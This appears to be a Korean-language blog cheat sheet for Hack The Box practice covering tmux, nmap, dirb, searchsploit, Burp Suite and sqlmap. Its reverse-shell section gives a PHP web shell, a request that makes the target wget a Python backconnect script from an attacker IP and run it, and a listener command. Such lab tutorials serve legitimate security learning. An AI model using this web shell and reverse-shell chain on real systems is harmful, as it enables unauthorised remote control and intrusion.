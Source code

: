 ```yaml
---
layout: post
title: "hack the box intro"
featured-img: hack_the_box
category: Etc
---
```


`hack the box`에서 자주 사용되는 도구, 명령어를 정리해놓았습니다.

## tmux
---
[http://blog.b1ue.sh/2016/10/10/tmux-tutorial/](http://blog.b1ue.sh/2016/10/10/tmux-tutorial/)

tmux is a terminal multiplexer: it enables a number of terminals to be created, accessed, and controlled from a single screen. tmux may be detached from a screen and continue running in the background, then later reattached.

|command| Description |
|-----------|-------------|
|tmux ls|세션 목록보기|
|tmux new -s session_name|세션 생성하며 이름 지정|
|tmux attach -t session_aname|특정 세션으로 진입하기|
|tmux kill-session -t session_name|세션 바깥에서 특정 세션을 종료|
|exit|세션 종료|


|Key|Description|
|------------|-------------|
|ctrl + b, c | 새로운 윈도우 생성|
|ctrl + b, % | 윈도우 횡 분할|
|ctrl + b, " | 윈도우 종 분할|
|ctrl + b, q | 윈도우 이동 숫자키|
|ctrl + b, arrow | 윈도우 이동 방향키|
|ctrl + b, x|세션 종료|
|ctrl + b, d|세션 빠져나오기, 세션은 유지된다. |
|ctrl + b, w|모든 윈도우 리스트 보기|
|ctrl + b, z|특정 윈도우를 전체화면으로 전환, 한번 더 누르면 원상태 복구|
|ctrl + d|윈도우 닫기|

[http://blog.b1ue.sh/2016/10/10/tmux-tutorial/](http://blog.b1ue.sh/2016/10/10/tmux-tutorial/)

## nmap
---

```bash
nmap -sC -sV -oA nmap-scripts 10.10.10.6
```

|options|Description|
|------------|-------------|
|-sC | --script default|
|-sV|Probe open ports to determine service/version info|
|-oA \<basename\> | Output in the three major formats at once(xml, nmap, gnmap)|

[https://svn.nmap.org/nmap/docs/nmap.usage.txt](https://svn.nmap.org/nmap/docs/nmap.usage.txt)

## dirb
---
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

```
dirb http://10.10.10.6 -r -o tmp.dirb
```

|options|Description|
|------------|-------------|
|-r | Don't search recursively|
|-o <output_file> | Save output to disk |

[https://tools.kali.org/web-applications/dirb](https://tools.kali.org/web-applications/dirb)

## searchsploit
---
http://www.exploit-db.com 을 콘솔 환경에서 검색 할 수 있는 툴<br>
[https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

```bash
searchsploit afd windows local
searchsploit -t oracle windows
searchsploit -p 39446
searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
searchsploit -x 11746.txt
```

|options|Description|
|------------|-------------|
|\-x, --examine [EDB-ID]|Examine (aka opens) the exploit using $PAGER.|


## burpsuite
---

특정한 URL만 확인할 수 있습니다.
```
target -> add to scope -> show only in-scope items
proxy -> HTTP history -> show only in-scope items
```

firefox ESR 프록시 설정
```
open menu -> preferences -> General -> Network Proxy
```

HTTP 메소드 변경
```
right click -> change requests method
```
## sqlmap
---
sqlmap -r [HTTP Request file] --level5 --risk 3

## python-pty-shells 
---

[https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells)

python 기반의 reverse-shell입니다.<br>
다음 방법은 파일업로드가 가능하거나, 임의의 파일을 쓸 수 있을 때 가능한 방법입니다.

테스트한 환경은 ubuntu 18.04에 APM을 설치하여 진행하였습니다.

1) 먼저 아래와 같은 php 구문을 업로드 또는 서버에 씁니다.

```php
<?php echo system($_REQUEST['shin']);?>
```

다음과 같이 HTTP Request를 할 수있습니다.

```
GET /shell.php?shin=ifconfig HTTP/1.1
```

2) wget을 이용하여 python 파일을 전달하기 위해 다음 명령어를 실행합니다.

```bash
python -m SimpleHTTPServer
```

3) tcp_pty_backconnect.py의 ip부분을 수정하여 다음과 같이 HTTP Request를 통해 해당 서버에 python 파일을 전달합니다.

권한문제로 정상적으로 파일을 다운받을 수 없으므로 /var/www/html의 권한을 수정하였습니다.

```
GET /shell.php?shin=wget 192.168.87.132:8000/tcp_pty_backconnect.py -O /var/www/html/uploads/.rev.py HTTP/1.1
```

4) listener를 사용하기 위해서 다음의 명령어를 사용합니다.

```
python tcp_pty_shell_handler.py -b 192.168.87.132:31337
```

5) 이후 서버에 업로드한 python 파일을 실행시키면 쉘을 얻을 수 있습니다.

```
GET /shell.php?shin=python /var/www/html/uploads/.rev.py HTTP/1.1
```

## username 확인
---
[http://man7.org/linux/man-pages/man1/find.1.html](http://man7.org/linux/man-pages/man1/find.1.html)

```bash
www-data@popcorn:/var/www/torrent/upload$find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null| column -t
```

|filename|path|user|group|file permission(m)|
|------------|-------------|-------------|-------------|-------------|
|home                       | /home                                     |root  |  root   | 755|
|george                     | /home/george                              |george|  george | 755|
|.bash_logout               | /home/george/.bash_logout                 |george|  george | 644|
|.bashrc                    | /home/george/.bashrc                      |george|  george | 644|
|torrenthoster.zip          | /home/george/torrenthoster.zip            |george|  george | 644|
|.cache                     | /home/george/.cache                       |george|  george | 755|
|motd.legal-displayed       | /home/george/.cache/motd.legal-displayed  |george|  george | 644|
|.sudo_as_admin_successful  | /home/george/.sudo_as_admin_successful    |george|  george | 644|
|user.txt                   | /home/george/user.txt                     |george|  george | 644|
|.nano_history              | /home/george/.nano_history                |root  |  root   | 600|
|.mysql_history             | /home/george/.mysql_history               |root  |  root   | 600|
|.bash_history              | /home/george/.bash_history                |root  |  root   | 600|
|.profile                   | /home/george/.profile                     |george|  george | 644|

